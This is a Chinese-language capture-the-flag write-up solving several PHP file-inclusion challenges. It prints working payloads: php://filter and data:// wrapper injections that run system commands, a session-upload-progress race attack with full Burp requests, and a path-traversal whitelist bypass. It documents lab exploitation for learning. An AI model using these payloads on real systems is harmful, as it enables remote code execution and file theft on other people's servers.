## BugKu--Web文件包含

使用

```php
php://filter/read=convert.base64-encode/resource=
```

即可拿到flag





## [ACTF2020 新生赛]Include





跟方法一一样，直接使用

```php
php://filter/read=convert.base64-encode/resource=
```

然后解码即可



## 青少年CTF靶场：ez-include

这道题目首先尝试

```php
php://filter/read=convert.base64-encode/resource="fla*"
```

没反应，然后尝试查看目录下有什么，直到我看到这个目录下的东西

```php
http://challenge.qsnctf.com:45786/include.php?file=data://text/plain,<?php system("cd ../../..;ls");?>
```



有flag

然后构造

```php
php://filter/read=convert.base64-encode/resource="../../../fla*"
```

依旧没有任何反应

#### 询问ai，给出了两种方案，均可以实现

```
1.?file=data://text/plain,<?php system("cat /fla*");?>
2.使用 Base64 编码整个 data:// 内容
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgL2ZsYWciKTs/Pg==
```


#### 那为什么我构造的那个不行呢？

```
因为 通配符（如 *、?）是操作系统终端（Shell）特有的机制，PHP 的文件系统函数本身并不支持通配符解析。
```

**支持通配符：**

- 当你执行 `system("cat /fla*")` 时，`system()` 会把这串命令丢给系统的 **Bash / Shell 解释器** 执行。
- Linux Shell 在真正执行 `cat` 之前，会自动完成**通配符扩展（Globbing）**，把 `/fla*` 自动替换成符合条件的真实文件名 `/flag`。

**不支持通配符：**

- `include`、`file_get_contents` 以及 `php://filter` 是 **PHP 语言内部的文件 I/O 机制**，它们直接调用操作系统的底层文件打开接口（如 C 语言的 `open()` / `fopen()`）。
- 操作系统底层打开文件时，要求传入**严格精确的文件名**。如果你传 `fla*`，PHP 就会真的去磁盘上寻找一个名字就叫 `fla*`（带星号这个字符）的文件。
- 目标系统里并没有字面名为 `fla*` 的文件，因此会直接报 `No such file or directory` 错误而加载失败。

## 青少年CTF靶场：ez-include-plus

#### 补充知识点：session临时文件

1. 什么是session临时文件：

当**`PHP_SESSION_UPLOAD_PROGRESS`**开启时，我们可以通过这个`PHP_SESSION_UPLOAD_PROGRESS`查看我们**文件上传的进度**，并且，他的**值我们是可控的**，在我们**上传文件的过程中**，`PHP_SESSION_UPLOAD_PROGRESS`的**内容会以一个临时文件的方式保存**，而这个**临时文件的名称我们也是可控的**，他存放在**`tmp`目录**下，路径为:

```
/tmp/sess_???
其中???是我们的设置的PHPSESSID的值，因为cookie的值我们是可以自定义的，所以该临时文件的文件名也是我们可控的
```

该**文件的内容**的形式为:

```
upload_progress_xxxxxx;|a:5{s:10:"start_time";i:1743699018;s:14:"content_length";i:406;s:15:"bytes_processed";i:406;s:4:"done";b:0;s:5:"files";a:1:{i:0;a:7:{s:10:"field_name";s:4:"file";s:4:"name";s:5:"1.txt";s:8:"tmp_name";N;s:5:"error";i:0;s:4:"done";b:0;s:10:"start_time";i:1743699018;s:15:"bytes_processed";i:406;}}}

开头的xxxxx是可控的，内容为PHP_SESSION_UPLOAD_PROGRESS的值，前面的upload_progress_是垃圾数据，但是这里我们上传的是用尖括号包着的php代码，不会被垃圾数据影响，有些情况需要消除这些垃圾数据才能继续利用，可以使用base64编码的办法
```

所以，我们只需要把要**执行的php代码**写在**`PHP_SESSION_UPLOAD_PROGRESS`**里面，然后**包含这个`session`文件**就行了，不幸的是，**`session.upload_progress.cleanup`是默认开启**的，它意味着我们文件上传结束时，该临时文件也会被清除，所以就需要进行**条件竞争**，让上传和包含同时进行

2. 写一个文件上传的表单，同时给PHP_SESSION_UPLOAD_PROGRESS赋值为恶意代码

```html
<!DOCTYPE html>
<html>
<body>
<form action="http://target.com/" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="<?php system('ls -la/');?>" />
    <input type="file" name="file" />
    <input type="submit" value="submit" />
</form>
</body>
</html>
```

收到一个 multipart/form-data 编码的 POST 请求、且 body 里带名为 PHP_SESSION_UPLOAD_PROGRESS 的字段，PHP引擎在解析请求体的阶段就自动把进度数据写进 session 文件——这一步发生在应用代码执行之前

#### 开始做题

这道题目算是比较难的一道了，利用的是session文件包含

首先在本地创建一个html文件，文件内容是

```html
<!DOCTYPE html>
<html>
<body>
<form action="http://target.com/" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="<?php system('ls -la /');?>" />
    <input type="file" name="file" />
    <input type="submit" value="submit" />
</form>
</body>
</html>

//需要更改上面的target.com
```

然后打开点击这个html文件



然后点击burp打开intercept（抓靶场的包），然后随便上传一个1.txt文件（内容随便），然后点击submit，包就被抓下来了，抓下来了看一个地方，改一个地方

```
1.看是不是Origin: null
2.Cookie: PHPSESSID=onehang 是抓到包之后手动加的
```

```url
POST /include.php HTTP/1.1
Host: challenge.qsnctf.com:32822
Content-Length: 2660
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydC9VuPugIo2RpfNy
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/153.0.0.0 Safari/537.36 Edg/153.0.0.0
Origin: null
Cookie: PHPSESSID=onehang
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: keep-alive

------WebKitFormBoundarydC9VuPugIo2RpfNy
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

<?php system('ls -la /');?>
------WebKitFormBoundarydC9VuPugIo2RpfNy
Content-Disposition: form-data; name="file"; filename="1.txt"
Content-Type: text/plain

aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
------WebKitFormBoundarydC9VuPugIo2RpfNy--

```

这是抓的第一个包，放到intruder模块然后点击drop，然后抓第二个包

访问

```url
靶场域名/?file=/tmp/sess_onehang
```

然后又抓到一个包

```url
GET /include.php?file=/tmp/sess_onehang HTTP/1.1
Host: challenge.qsnctf.com:32822
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/153.0.0.0 Safari/537.36 Edg/153.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: Hm_lvt_10309f8528ef7f3bdd779aa12ad6dc7e=1789050295; HMACCOUNT=C48C97361053B03B; Hm_lpvt_10309f8528ef7f3bdd779aa12ad6dc7e=1789382029
Connection: keep-alive


```

然后放到intruder模块，两个数据包同时爆破即可



看到flag在哪里之后就然后改一下第一个数据包即可



flag{f46fb4d34cd24a5fa779a3622f5c23a9}

## **[HCTF 2018]WarmUp**

打开题目数据包没什么问题，然后F12



看到有一个source.php，访问

```
http://3ac00d1275eb6e43ac087ee0.http-ctf2.dasctf.com/source.php
```



这道题目主要就是代码审计，我看不怎么懂这个代码，懒得看，让ai看这个代码，然后直接发现问题

```php
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br>";
    }  
?>
```

**截取 `?` 前面的部分”这一步。** 函数只要发现 `?` 前面的字符串是 `source.php`，就会返回 `true`，那很好办了，直接包含

```url
?file=source.php?../../../../../../flag
```

但是并没有发现，然后看到有两个白名单文件

访问hint，返回



```
flag in ffffllllaaaagggg
```

那就访问

```
?file=source.php?../../../../../../ffffllllaaaagggg
```

就OK了


